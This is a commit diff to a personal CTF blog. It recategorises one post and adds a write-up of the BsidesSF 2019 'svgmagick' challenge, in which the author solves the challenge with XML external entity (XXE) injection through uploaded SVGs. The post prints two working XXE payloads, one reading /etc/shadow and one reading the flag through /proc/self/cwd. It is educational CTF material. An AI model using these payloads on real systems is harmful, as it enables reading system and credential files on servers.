

Before and after one commit to W3ndige/rootnetsec.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1263 px of the page at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
BsidesSF - svgmagick + categories update in AngstromCTF and BsidesSF

````diff
--- a/_posts/2019-03-07-bsidessf-sequel.md
+++ b/_posts/2019-03-07-bsidessf-sequel.md
@@ -4,7 +4,7 @@
 date:       2019-03-07 0:00:00
 author:     'W3ndige'
 permalink: /:title/
-category: 'Write-Ups'
+category: 'BsidesSF 2019'
 ---
 
 BsidesSF was a great CTF, but as I could not finish many tasks withing the duration of the competition, I decided to come back to the ones with which I struggled the most. Here's my write up for ***sequel***, which is cool ***web*** challenge rated ***200*** points.
--- /dev/null
+++ b/_posts/2019-03-11-bsidessf-svgmagick.md
@@ -0,0 +1,50 @@
+---
+layout:     post
+title:      'BsidesSF CTF 2019 - svgmagick'
+date:       2019-03-11 0:00:00
+author:     'W3ndige'
+permalink: /:title/
+category: 'BsidesSF 2019'
+---
+
+Another challenge that I've missed during the CTF was the ***scgmagick*** challenge rated for 100 points. Solution is very esay, but required some trial and error. Let's take a look.
+
+```text
+When I render SVGs to PNGs, it's like magic!
+
+Location - https://svgmagic-202d168a.challenges.bsidessf.net/
+
+Note: flag.txt is in the working directory of the server.
+```
+
+My first guest was [ImageTragick](https://imagetragick.com/) vulnerability as the name of the challenge may suggest that. Unofrtunately, multiple tries did not find anything interesting, nothing worked so I've decided to move onto another technique.
+
+But while searching for different vulnerabilites, I've noticed that [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) is available and we can read files on the local filesystem with this simply crafted ***SVG***.
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE note [
+<!ENTITY file SYSTEM "file:///etc/shadow" >
+]>
+<svg height="100" width="1000">
+  <text x="10" y="20">&file;</text>
+</svg>
+```
+
+![LFI](/img/bsidessf/svgmagick-passwd.png){:class="img-responsive center-block"}
+
+Now we have LFI with XXE, but another obstacle is reading file in current directory. We cannot do simple `file://flag.txt` as we get a `500` error.
+
+After some thinking, I used my knowledge from previous challenges that we can take a look at `/proc/` filesystem, especially `/proc/self`. With [that](https://unix.stackexchange.com/questions/94357/find-out-current-working-directory-of-a-running-process) StackOverflow answer we can try to get `/proc/self/cwd/flag.txt` to get the flag.
+
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+<!DOCTYPE note [
+<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
+]>
+<svg height="100" width="1000">
+  <text x="10" y="20">&file;</text>
+</svg>
+```
+
+![Flag](/img/bsidessf/svgmagick-flag.png){:class="img-responsive center-block"}
````
Also changed, not shown: _posts/2018-03-23-angstromctf-madlibs.md (+1 -2 lines), _posts/2018-03-23-angstromctf-md5.md (+1 -2 lines), _posts/2018-03-23-angstromctf-slots.md (+1 -2 lines), img/bsidessf/svgmagick-flag.png (added), img/bsidessf/svgmagick-passwd.png (added).
